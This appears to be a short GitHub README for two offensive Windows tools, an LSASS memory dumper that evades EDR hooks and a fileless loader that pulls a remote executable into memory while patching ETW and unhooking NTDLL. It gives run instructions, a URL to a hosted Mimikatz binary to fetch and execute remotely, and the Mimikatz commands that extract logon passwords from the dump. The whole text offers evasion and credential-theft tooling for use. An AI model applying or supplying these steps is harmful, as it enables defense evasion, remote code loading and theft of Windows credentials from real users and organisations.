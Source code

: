 # DumpL-a-_PE_Loder

Dumping LSASS by Unhooking MiniDumpWriteDump by getting a fresh DbgHelp.dll copy from the disk , plus functions and strings obfuscation, duplicate lsass handle from existed processes.
Download and Run the MiniDump.exe ( It will create a dump file in tmp folder)

Loading Fileless Remote PE from URI to memory with argument passing and ETW patching and NTDLL unhooking.
Download and run the RemotePE.exe
Enter in the URI write the Portable Excutable file path ( https://github.com/0d1y/mirrordump/blob/main/mimi.exe?raw=true ) 
Mimikatz commands:
sekurlsa::minidump <dump file full path>
sekurlsa::logonPasswords 
  


https://github.com/D1rkMtr/FilelessRemotePE/tree/main/RemotePE

https://github.com/D1rkMtr/DumpThatLSASS
